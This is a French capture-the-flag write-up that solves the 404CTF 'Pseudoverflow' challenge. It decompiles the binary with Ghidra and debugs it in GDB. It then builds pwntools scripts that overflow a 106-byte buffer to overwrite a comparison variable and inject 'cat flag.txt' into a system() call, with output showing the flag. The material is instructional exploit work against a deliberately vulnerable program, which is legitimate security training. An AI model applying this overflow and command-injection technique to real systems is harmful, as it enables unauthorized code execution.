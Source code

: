 # Pseudoverflow

## Sujet

```md
Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt
 
Auteur: @Narcisse
```

# Analyse statique

À l'aide de Ghidra on obtient ces deux fonctions :

```C
undefined8 main(void)

{
  int iVar1;
  char local_78 [106];
  undefined4 local_e;
  undefined2 local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_e = 0x64726570;
  local_a = 0x73;
  puts(&DAT_00102008);
  fgets(local_78,0x100,stdin);
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
  else {
    puts("Nous vous recontacterons dans les prochaines semaines.");
  }
  return 0;
}
```

```C
void win(char *param_1)

{
  system(param_1);
  return;
}
```

La fonction `fgets` dans main étant vulnérable à un buffer overflow, on va exploiter cette vulnérabilité pour modifier la variable `local_e` afin de passer la condition suivante et atteindre la fonction `win` :

```C
  iVar1 = strcmp((char *)&local_e,"gagne");
  if (iVar1 == 0) {
    win(local_78);
  }
```

Nous devrons ensuite utiliser l'appel system dans la fonctonion `win` pour ouvrir le fichier `flag.txt`.
Nous n'avons pas besoin d'analyse dynamique, passons directement à l'exploit.

# Analyse dynamique 

D'après l'analyse statique, la variable `local_78` utilisé en tant que buffer est de 106 bytes, et la variable `local_e` qui doit contenir `gagne` est stocké juste après dans la stack. Tentons de la modifier avec ce script :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...") # Pour ouvrir le process sous GDB
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py          
[+] Starting local process './course': pid 6204
Waiting for debugger...
[*] Switching to interactive mode
[*] Process './course' stopped with exit code 0 (pid 6204)
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
Nous vous recontacterons dans les prochaines semaines.
[*] Got EOF while reading in interactive
$ 
```

Le code ne semble pas atteindre la fonction `win`. Allons voir sous GDB ce qu'il se passe :

```gdb
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5621850ac22e <main+009a>      lea    rdx, [rip+0xe3c]        # 0x5621850ad071
   0x5621850ac235 <main+00a1>      mov    rsi, rdx
   0x5621850ac238 <main+00a4>      mov    rdi, rax
 → 0x5621850ac23b <main+00a7>      call   0x5621850ac060 <strcmp@plt>
   ↳  0x5621850ac060 <strcmp@plt+0000> jmp    QWORD PTR [rip+0x2fb2]        # 0x5621850af018 <strcmp@got.plt>
      0x5621850ac066 <strcmp@plt+0006> push   0x3
      0x5621850ac06b <strcmp@plt+000b> jmp    0x5621850ac020
      0x5621850ac070 <setvbuf@plt+0000> jmp    QWORD PTR [rip+0x2faa]        # 0x5621850af020 <setvbuf@got.plt>
      0x5621850ac076 <setvbuf@plt+0006> push   0x4
      0x5621850ac07b <setvbuf@plt+000b> jmp    0x5621850ac020
───────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
strcmp@plt (
   $rdi = 0x00007ffe9bb8445a → 0x00000a656e676167 ("gagne\n"?),
   $rsi = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?),
   $rdx = 0x00005621850ad071 → 0x4e0000656e676167 ("gagne"?)
)
```

La variable `local_e` contient le charactère "\n". Rajoutons un null byte pour signaler la fin du string :

```python
from pwn import *

offset = 106

payload = b"".join([
    b"\x41"*offset,
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ python3 exploit.py
[+] Starting local process './course': pid 6241
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
[*] Process './course' stopped with exit code 0 (pid 6241)
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgagne: not found
[*] Got EOF while reading in interactive
$
```

Nous exécutons effectivement du code : nous avons atteint la fonction `win`. Tentons de contrôler le code exécuté.
D'après l'analyse statique, la fonction `win` exécute le string passé en argument :

```C
void win(char *param_1)

{
  system(param_1);
```

Et la fonction main passe la variable `local_78` (utilisé en tant que buffer) à la fonction `win` :

```C
win(local_78);
```

Injectons le code à exécuter dans la variable `local_78` :

```python
from pwn import *

offset = 106
cat = b"cat flag.txt;"

payload = b"".join([
    cat,
    b"\x00"*(offset-len(cat)),
    b"gagne\x00",
    b"\n",
])

p = process("./course")
input("Waiting for debugger...")
p.send(payload)
p.interactive()
```

```console
$ echo flagIsHere > flag.txt

$ python3 exploit.py
[+] Starting local process './course': pid 6342
Waiting for debugger...
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
flagIsHere
[*] Got EOF while reading in interactive
$ 
[*] Process './course' stopped with exit code 0 (pid 6342)
```

On a bien ouvert le fichier voulu. Essayons maintenant d'exploit le service mis en ligne.

# Exploit

Nous allons envoyer le payload avec [ce script](./exploit.py) :

```console
$ python3 exploit.py
[+] Opening connection to challenges.404ctf.fr on port 31958: Done
[*] Switching to interactive mode
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :
404CTF{0v3rfl0w}[*] Got EOF while reading in interactive
$ 
[*] Closed connection to challenges.404ctf.fr port 31958
```

On obtient bien le flag : `404CTF{0v3rfl0w}`.
